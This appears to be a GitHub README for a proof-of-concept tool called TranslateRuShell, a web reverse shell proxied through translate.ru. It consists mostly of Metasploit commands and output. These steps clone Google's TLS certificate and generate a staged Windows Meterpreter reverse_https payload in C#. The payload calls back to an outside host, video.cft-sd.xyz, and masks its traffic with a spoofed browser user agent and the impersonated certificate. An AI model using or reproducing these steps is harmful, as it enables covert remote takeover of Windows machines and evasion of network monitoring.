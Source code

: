 # TranslateRuShell (PoC)
Web reverse shell through translate.ru as proxy

## Generate Meterpreter Payload

### Get Cert

use auxiliary/gather/impersonate_ssl
set RHOST www.google.com
set Proxies http:host:port
run

[*] www.google.com:443 - Connecting to www.google.com:443
[*] www.google.com:443 - Copying certificate from www.google.com:443
/C=PortSwigger/O=PortSwigger/OU=PortSwigger CA/CN=www.google.com 
[*] www.google.com:443 - Beginning export of certificate files
[*] www.google.com:443 - Creating looted key/crt/pem files for www.google.com:443
[+] www.google.com:443 - key: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_k_916621.key
[+] www.google.com:443 - crt: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_c_554054.crt
[+] www.google.com:443 - pem: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_p_521262.pem
[*] Auxiliary module execution completed

### Generate staged payload with cert check

use payload/windows/meterpreter/reverse_https
set LHOST video.cft-sd.xyz
set LPORT 443
set HttpUserAgent "Mozilla/5.0 (X11; Windows x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
set LURI /rest/api
set stagerverifysslcert true
set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
generate -t csharp
